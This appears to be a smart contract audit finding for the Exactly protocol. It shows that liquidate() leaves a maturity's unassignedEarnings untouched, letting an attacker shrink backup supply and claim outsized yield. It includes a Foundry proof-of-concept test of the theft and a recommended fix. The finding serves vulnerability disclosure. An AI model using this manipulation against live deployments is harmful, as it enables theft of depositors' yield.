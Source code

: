 Tiny Mulberry Tapir

medium

# `unassignedEarnings` of each maturity doesn't change after liquidation, resulting in the attacker being able to cheat and steal the yield from maturities

## Summary
In the Market contract, the `liquidate()` function reduces the debt of each maturity but does not reduce `unassignedEarnings`. This allows an attacker to cheat and steal the yield from the maturities. A similar problem can be found in `clearBadDebt()` function.
## Vulnerability Detail
* In the `liquidate()` function of Market contract, for each maturity, it calls `noTransferRepayAtMaturity()` internal function to handle the repayment of the liquidated debt with parameter `canDiscount` is set to false. However, `unassignedEarnings` of that maturity does not undergo any changes while the backup supply for that maturity decreases. 
* Regarding the liquidation of a maturity, while a debt is repaid, which may decrease a significant amount of backup supply for this maturity, its `unassignedEarnings` remain unchanged. In this case, `unassignedEarnings` include the interest fee of the deducted debt, so the corresponding interest of the repaid debt will be counted into future earnings. Afterward, the new supply will receive more interest earnings than the old supplies, which is unexpected according to the interest rate model. Moreover, an attacker can use `liquidate()` to manipulate the backup supply to be very small while `unassignedEarnings` still remain huge, then deposit only the small amount of assets needed to claim all the yields of the maturity.
See this [code snippet](https://github.com/exactly/protocol/blob/main/contracts/Market.sol#L495-L509):
```solidity=
// early repayment allows a discount from the unassigned earnings
if (block.timestamp < maturity) {
  if (canDiscount) {
    // calculate the deposit fee considering the amount of debt the account'll pay
    (uint256 discountFee, uint256 backupFee) = pool.calculateDeposit(principalCovered, backupFeeRate);

    // remove the fee from unassigned earnings
    pool.unassignedEarnings -= discountFee + backupFee;

    // the fee charged to the fixed pool supplier goes to the earnings accumulator
    earningsAccumulator += backupFee;

    // the fee gets discounted from the account through `actualRepayAssets`
    actualRepayAssets = debtCovered - discountFee;
  } else {
    actualRepayAssets = debtCovered;
  }
```

* Here is the test function for a PoC where an attacker can steal many yields of maturity with a small amount of deposited assets:
```solidity=
function testLiquidateAndClaimYieldOfMaturity() external {
irm.setRate(0.1e18);
daiPriceFeed.setPrice(0.0005e18);

market.deposit(50_000 ether, ALICE);
marketWETH.deposit(1 ether, address(this));

//borrow 1000 ether for address(this)
market.borrowAtMaturity(FixedLib.INTERVAL, 1_000 ether, 2_000 ether, address(this), address(this));

//After 2 weeks, collateral value goes down, so position of address(this) can be liquidated
vm.warp(2 weeks);
daiPriceFeed.setPrice(0.001111111111e18);

//Alice deposit 500 Eth to that maturity and claim 1/2 of the current maturity's yield (unassignedEarnings)
market.depositAtMaturity(FixedLib.INTERVAL, 500 ether, 500 ether, ALICE);
(, uint256 feeAlice) = market.fixedDepositPositions(FixedLib.INTERVAL, ALICE);
console.log("fee received", feeAlice);


vm.prank(BOB);
//Bob liquidate a specific amount for the above position 
market.liquidate(address(this), 508 ether, marketWETH);

//Bob deposit only 1 Eth but claim all remaining yield of that maturity (same amount of yield with Alice)
market.depositAtMaturity(FixedLib.INTERVAL, 1 ether, 1 ether, BOB);
(, uint256 feeBob) = market.fixedDepositPositions(FixedLib.INTERVAL, BOB);
console.log("fee received", feeBob);
assertEq(feeBob, feeAlice);
}
```
Please put this function into `Market.t.sol` test file and run the command:
```bash=
forge test -vv --match-test testLiquidateAndClaimYieldOfMaturity
```
* In the PoC scenario, Alice deposited 500 Eth to claim a portion of the yield from this maturity (unassignedEarnings). However, after liquidation, Bob only needs to deposit 1 Eth to claim all the remaining yield of that maturity (equal to the yield received by Alice). This creates an unfair situation for users where an attacker can manipulate liquidations to profit from it and steal the yields of maturity.

## Impact
An attacker can call the `liquidate()` function with a specific liquidated amount to manipulate the backup supply of maturity and claim all of the `unassignedEarnings`, which represent the yield from the maturity's borrows. This results in the attacker being able to collect a significantly higher yield than expected from the interest model, and claim the yields that should be distributed to the suppliers or treasury of the protocol.

## Code Snippet
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L564-L580
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L507-L509
## Tool used

Manual Review

## Recommendation
`liquidate()` still decreases `floatingBackupBorrowed` by deducting the backup supply of the floating market for that maturity. Additionally, the `depositAtMaturity()` and `repayAtMaturity()` functions decrease the corresponding interest of the deducted backup supply and distribute that amount of interest to the suppliers or the repayers. Therefore, `liquidate()`  function should distribute the deducted interest to others instead of keeping it in unassignedEarnings. I recommend using `collectFreeLunch()` function to distribute that amount of yield to floating suppliers and the treasury.
